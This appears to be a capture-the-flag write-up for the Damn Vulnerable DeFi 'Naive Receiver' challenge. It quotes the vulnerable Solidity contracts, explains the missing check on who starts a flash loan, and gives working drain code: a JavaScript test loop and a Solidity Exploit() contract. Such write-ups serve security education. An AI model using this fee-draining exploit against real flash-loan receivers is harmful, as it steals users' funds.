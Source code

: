 ## What is our mission
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br/>

## What are the smart contracts 
- **`NaiveReceiverLenderPool.sol`**: smart contract that includes **`flashLoan()`** function
- **`FlashLoanReceiver.sol`**: smart contract that includes **`onFlashLoan()`** function

<br/>


## Solution 

**1.** **`NaiveReceiverLenderPool.sol`** contracts **`flashLoan()`** function
``` solidity
// NaiveReceiverLenderPool.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```

**2.** **`FlashLoanReceiver.sol`** contracts **`onFlashLoan()`** function

``` solidity
// FlashLoanReceiver.sol

function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

**3.** The vulnarability cames from,  **`FlashLoanReceiver.sol`** contract.

**`onFlashLoan()`** function is triggered from `NaiveReceiverLenderPool.sol` when **`flashLoan()`** is called.



⚠️ But **`onFlashLoan()`** function doesn't check Who has called **`flashLoan()`** function.

This means anybody who call **`flashLoan()`** function can pass  **`FlashLoanReceiver.sol`** contract as a `receiver` paremether to **`flashLoan()`** function. This will trigger **`onFlashLoan()`** function inside **`FlashLoanReceiver.sol`**.

And **`FlashLoanReceiver`** will pay transection fee until be out of money. 😥😥😥

<br/>

Here how you can do it

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        const ETH = await pool.ETH();
        
        for (let i = 0; i < 10; i++) 
        {    
            await pool.flashLoan(receiver.address, ETH, ETHER_IN_POOL, "0x");   
        }        
    });
```
As you can see, we have send 10 transection. But if you want to do this challenge **in single transection**, you will need to code smart contract.

<br/><br/>


To solve this, create a new file in side **`contracts/naive-receiver`** called **`NaiveReceiver_SolutionCode.sol`** 

``` solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract NaiveReceiver_SolutionCode
{
    // Constant variables
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant Amount = 1 ether; 

    // Immutable variables
    IERC3156FlashLender private immutable pool;
    IERC3156FlashBorrower private immutable receiver;

    // constructor
    constructor(address _pool, address _receiver) 
    {
        pool = IERC3156FlashLender(_pool);
        receiver = IERC3156FlashBorrower(_receiver);
    }

    
    function Exploit() external
    {
        for (uint i = 0; i < 10; i++) 
        {
            pool.flashLoan(receiver, ETH, Amount, "0x");    
        }
    }
}
```

Run fallowing command **`npx hardhat compile`** to compile the contract. 

<br/>

Then you can go to test file and use this code: 

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        //Location of your compiled contract data. If you are fallowing this solition, copy bellow
        const compiled_data = require("../../artifacts/contracts/naive-receiver/NaiveReceiver_SolutionCode.sol/NaiveReceiver_SolutionCode.json");

        const abi = compiled_data.abi;
        const bytecode = compiled_data.bytecode;
    
        const factory = new ethers.ContractFactory(abi, bytecode, deployer);

        const NaiveReceiver_SolutionCode = await factory.deploy(pool.address, receiver.address)

        await NaiveReceiver_SolutionCode.Exploit();
    });
```



<br/>

## How could this exploit be prevented ?
**Share your ideas with me :)**


<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #2**](https://www.damnvulnerabledefi.xyz/challenges/2.html). Clone the repository as mentioned and,

put [**basic solution code**](Basic.Solution.md) to his place 

/or

put [**single transection solution code**](Single.Transection.Solution.md) to his place

Then you can just type **`npm run naive-receiver`** 